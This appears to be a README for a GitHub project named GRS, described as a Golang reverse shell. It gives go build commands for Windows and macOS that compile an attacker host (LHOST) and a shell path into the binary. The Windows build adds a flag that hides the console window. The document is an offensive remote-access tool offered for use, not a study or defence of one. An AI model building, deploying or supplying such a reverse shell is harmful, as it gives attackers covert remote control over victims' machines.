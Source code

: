 # GRS
### A Golang reverse shell


#### To build:

Windows:
    $ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"

Darwin:
    $ go build -ldflags "-X 'main.host=`LHOST' -X 'main.shellPath=shell path'" "darwin/GRS.go"
